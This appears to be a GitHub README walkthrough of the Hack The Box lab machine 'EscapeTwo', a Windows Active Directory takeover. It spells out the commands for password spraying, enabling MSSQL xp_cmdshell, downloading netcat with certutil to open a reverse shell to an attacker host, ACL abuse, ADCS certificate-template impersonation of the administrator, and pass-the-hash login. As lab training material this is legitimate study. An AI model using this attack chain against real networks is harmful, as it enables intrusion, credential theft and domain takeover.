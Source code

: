 # EscapeTwo HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-EscapeTwo-green?logo=hackthebox)](https://www.hackthebox.com)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/HTB/Challenges)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/HTB/Challenges)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

EscapeTwo is an easy Windows domain machine showcasing a full AD domain takeover:
- Starting with user credentials for domain enumeration and SMB share access,
- Fixing a corrupted Excel file header to extract hidden credentials,
- Using extracted credentials for MSSQL authentication and command execution (xp_cmdshell),
- Leveraging reverse shell with Netcat and certutil for lateral movement,
- Performing password spraying on WinRM and SMB for further access,
- Enumerating and abusing AD ACLs to control certificate services user,
- Exploiting misconfigured Active Directory Certificate Services (ADCS) to impersonate domain admin,
- Finally, gaining domain admin access and retrieving the root flag.

---

## Table of Contents

- [1. Initial Enumeration](#1-initial-enumeration)
- [2. SMB Share Enumeration and File Extraction](#2-smb-share-enumeration-and-file-extraction)
- [3. Repairing Corrupted Excel File](#3-repairing-corrupted-excel-file)
- [4. Password Spraying and MSSQL Access](#4-password-spraying-and-mssql-access)
- [5. Enabling xp_cmdshell and Reverse Shell](#5-enabling-xp_cmdshell-and-reverse-shell)
- [6. Lateral Movement Using WinRM](#6-lateral-movement-using-winrm)
- [7. Active Directory Enumeration with BloodHound](#7-active-directory-enumeration-with-bloodhound)
- [8. ACL Abuse and ADCS Enumeration](#8-acl-abuse-and-adcs-enumeration)
- [9. Exploiting Vulnerable Certificate Template](#9-exploiting-vulnerable-certificate-template)
- [10. Domain Admin Access and Root Flag](#10-domain-admin-access-and-root-flag)
- [11. Stepwise PoC](#11-stepwise-poc)

---

## 1. Initial Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.232.128 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.232.128
```

- Scans all TCP ports, extracts open ports, then runs version detection and default NSE scripts on those ports.
- Open services included SMB(445), LDAP(389), Kerberos(88), and MSSQL(1433).
 ```
 echo "10.129.232.128 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts`
 ```
- Adds IP to hosts for domain resolution.

---

## 2. SMB Share Enumeration and File Extraction
```
netexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.232.128
use Accounting Department
ls
get accounts.xlsx`
```
- Lists SMB shares accessible with user `rose`.
- Downloads `accounts.xlsx` – a corrupted Excel file suspected to contain secrets.

---

## 3. Repairing Corrupted Excel File
```
file accounts.xlsx
7z x accounts.xlsx
hexedit accounts.xlsx
xxd accounts.xlsx
```
- Determine file type: `.xlsx` files are ZIP archives.
- Extraction fails due to corrupted header bytes `50 48 04 03`.
- Manual hex edit to fix header to standard ZIP magic bytes `50 4B 03 04`.
- File opens successfully, revealing credentials inside.

---

## 4. Password Spraying and MSSQL Access

`netexec smb 10.129.232.128 -u users.txt -p pass.txt`

- Password spray with user and password lists to find valid combinations (finds valid user `oscar`).

```
netexec mssql 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.232.128
```
- Connect to MSSQL with high-privilege `sa` account using found credentials.

Enable command execution:
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
- Enables `xp_cmdshell` procedure to run OS commands, reveals `sequel\sql_svc` user.

---

## 5. Enabling xp_cmdshell and Reverse Shell
```
nc -lnvp 4455
python3 -m http.server 4000
```
- Start a Netcat listener and simple HTTP server locally.
- Start a Netcat listener and simple HTTP server locally.

```
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.96:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.96 4455';
```
- Downloads Netcat to victim using `certutil`.
- Executes Netcat to connect back and spawn a reverse shell on attacker machine.

---

## 6. Lateral Movement Using WinRM
```
net user
nxc winrm sequel.htb -u Users.txt -p 'WqSZAF6CysDQbGb3'
evil-winrm -i 10.129.232.128 -u ryan -p 'WqSZAF6CysDQbGb3'
```
- Enumerate users on Windows.
- Spray Password on WinRM port 5985 to find valid login (`ryan`).
- Use Evil-WinRM to spawn remote PowerShell session as `ryan`.
- Retrieve user flag for confirmation.

---

## 7. Active Directory Enumeration with BloodHound

`bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.232.128 -c all --zip`

- Perform comprehensive enumeration of AD structure, permissions, and sessions.
- Identify privilege escalation paths involving `ca_svc` account.

---

## 8. ACL Abuse and ADCS Enumeration
```
python owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
python dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```
- Change ownership and grant `FullControl` to `ryan` over `ca_svc`.
- Also we can reset `ca_svc` password via PowerView or similar tools.

---

## 9. Exploiting Vulnerable Certificate Template
 ```
 certipy shadow -account ca_svc -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' auto 
 certipy find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -text
 certipy template -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -template 'DunderMifflinAuthentication' -save-old
 certipy req -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn     
 administrator@sequel.htb -dns dc01.sequel.htb	
 certipy auth -pfx administrator_dc01.pfx
```
- Enumerate CA templates and spot misconfigurations.
- Modify template to remove approval requirement and enable client authentication.
- Request a certificate impersonating administrator.
- Authenticate with the certificate and extract domain admin NTLM hash.

---

## 10. Domain Admin Access and Root Flag
```
evil-winrm -i 10.128.124.12 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
whoami
type C:\Users\Administrator\Desktop\root.txt
```
- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## 11. Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1567" height="841" alt="39" src="https://github.com/user-attachments/assets/cf78e34a-3d0b-4eba-b639-657c3207a13f" />
<img width="1163" height="746" alt="38" src="https://github.com/user-attachments/assets/da0d5c09-c9f9-4460-8e48-01f1d860b11b" />
<img width="1090" height="94" alt="37" src="https://github.com/user-attachments/assets/fa326e43-0f87-4fae-80d0-1ba35e1adc18" />
<img width="1827" height="468" alt="36" src="https://github.com/user-attachments/assets/ae250058-a54a-45de-bcdf-3b4808ff4148" />
<img width="1224" height="622" alt="35" src="https://github.com/user-attachments/assets/6264ec1c-f2dc-4f0e-af5e-c2da8b4e02a1" />
<img width="1908" height="147" alt="34" src="https://github.com/user-attachments/assets/29b6aaa8-2abd-4668-b769-e8a1fa85d4c4" />
<img width="1835" height="726" alt="33" src="https://github.com/user-attachments/assets/6e94d1d3-a9e7-4f54-9a8f-6cd5b31eb144" />
<img width="838" height="356" alt="32" src="https://github.com/user-attachments/assets/e0670fcf-38fa-414d-95f5-0018013d7ad2" />
<img width="1213" height="843" alt="31" src="https://github.com/user-attachments/assets/57a3e493-1569-4cde-9b44-a19696eda0d8" />
<img width="1200" height="816" alt="30" src="https://github.com/user-attachments/assets/11129b40-7bd6-4b84-ab19-d9aad51dbc28" />
<img width="1107" height="662" alt="29" src="https://github.com/user-attachments/assets/a8e0e96f-bef7-4918-8afb-5eff7c8844ed" />
<img width="1381" height="341" alt="28" src="https://github.com/user-attachments/assets/56c42ec9-919b-4ae6-80ee-9429d9ba82ac" />
<img width="1399" height="597" alt="27" src="https://github.com/user-attachments/assets/796b65f9-7d01-4e5c-bd7f-3f6b066c7431" />
<img width="1410" height="811" alt="26" src="https://github.com/user-attachments/assets/5151efae-e489-4f7a-bb5c-f86837eb53c7" />
<img width="749" height="170" alt="25" src="https://github.com/user-attachments/assets/666da45b-b6d6-418a-a0c0-924a0fd2092b" />
<img width="843" height="136" alt="24" src="https://github.com/user-attachments/assets/d23abef6-7ce1-462e-ac88-f5368e5caf20" />
<img width="1405" height="485" alt="23" src="https://github.com/user-attachments/assets/0564f09f-007f-4a6b-b692-eed71288a235" />
<img width="1698" height="772" alt="22" src="https://github.com/user-attachments/assets/1c69f4a6-56ea-4708-9614-17b8b70abfcf" />
<img width="867" height="501" alt="21" src="https://github.com/user-attachments/assets/ada0b434-acf4-468a-8907-fed186ba56e1" />
<img width="920" height="718" alt="20" src="https://github.com/user-attachments/assets/0640dfdf-667d-443e-9334-8783ab7deb1b" />
<img width="756" height="707" alt="19" src="https://github.com/user-attachments/assets/6726c592-3a77-4f8f-adc7-75a3edbacfba" />
<img width="948" height="380" alt="18" src="https://github.com/user-attachments/assets/6763d4a1-5373-4952-a383-278ae40c5662" />
<img width="1055" height="471" alt="17" src="https://github.com/user-attachments/assets/6b46c9bd-0378-4ece-8dd7-60dab7bc2fe8" />
<img width="1003" height="487" alt="16" src="https://github.com/user-attachments/assets/ce2f4474-46e9-4f5a-b943-871f87cd5c95" />
<img width="976" height="730" alt="15" src="https://github.com/user-attachments/assets/92426af9-b80f-4dae-828d-6f856206a30c" />
<img width="1593" height="848" alt="14" src="https://github.com/user-attachments/assets/5a0817fc-c347-40eb-8698-6166d9567721" />
<img width="1026" height="281" alt="13" src="https://github.com/user-attachments/assets/87cad8f2-7a3f-4e75-b1da-e47eb4a82156" />
<img width="1007" height="304" alt="12" src="https://github.com/user-attachments/assets/5518be24-e84c-44f2-872a-35ba15410648" />
<img width="1010" height="212" alt="11" src="https://github.com/user-attachments/assets/c3a935f3-c6c9-4309-aec8-d80d04944e44" />
<img width="1593" height="711" alt="10" src="https://github.com/user-attachments/assets/8cc34080-7466-4aba-b90e-77dbf06a296b" />
<img width="1015" height="356" alt="9" src="https://github.com/user-attachments/assets/3c88a4f3-850c-4a52-aebc-0469eaa36d2b" />
<img width="1010" height="233" alt="8" src="https://github.com/user-attachments/assets/83a27c6d-c699-4552-bbb7-ae764d6d7025" />
<img width="1591" height="663" alt="7" src="https://github.com/user-attachments/assets/8140794e-8d30-4c0c-a6d2-c1dfa0eb2a80" />
<img width="1829" height="669" alt="6" src="https://github.com/user-attachments/assets/fc9acdee-23bd-40b6-9252-49e88eda588d" />
<img width="1227" height="691" alt="5" src="https://github.com/user-attachments/assets/52dca908-e45d-4e9c-acea-5857fdfd71cc" />
<img width="1016" height="287" alt="4" src="https://github.com/user-attachments/assets/526a5f64-d973-4f41-bfcb-becbeaaf0bf0" />
<img width="1008" height="452" alt="3" src="https://github.com/user-attachments/assets/fef3eb82-7daf-4cff-a6c7-6a6291d7a28b" />
<img width="1011" height="509" alt="2" src="https://github.com/user-attachments/assets/60caf3be-d8a5-4a40-ab17-9083b37c7c9a" />
<img width="1021" height="478" alt="1" src="https://github.com/user-attachments/assets/05301ce8-6ced-4939-85b8-36b4e99999a1" />

</details>

---

## Tools & References

- **NetExec (nxc):** Network service exploitation and spraying
- **Impacket:** SMB and MSSQL clients
- **BloodHound:** AD permission visualizer and enumeration
- **Certipy:** ADCS enumeration and exploitation
- **Evil-WinRM:** Remote PowerShell shell over WinRM
- **Standard Linux tools:** `nmap`, `netcat`, `file`, `7z`, `hexedit`

---

## Final Notes

- Master the flow from enumeration → foothold → lateral movement → escalation.
- ADCS misconfiguration remains a powerful vector in domain takeovers.
- Proper ACL management and template hardening are critical defenses.

---





